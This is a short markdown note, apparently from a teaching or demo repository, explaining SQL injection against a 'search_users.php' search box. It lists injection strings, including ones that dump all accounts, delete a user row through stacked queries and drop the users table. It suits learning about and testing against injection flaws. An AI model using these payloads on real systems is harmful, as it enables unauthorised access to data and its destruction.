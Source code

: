 # SQL Injection

When using the **search_users.php** web page you can use the following in the search box to show all accounts;
```sql
' OR 1=1; -- '
```

Or simply;
```sql
'; --
```

When PHP uses the mysqli_multi_query() function it allows for classic multi command injections:
```sql
' OR 1=1; delete from users where username='bob'; --
```

Or even:
```sql
drop table users;
```

Advances in PHP prevent multiple SQL statements, but not overriding user input.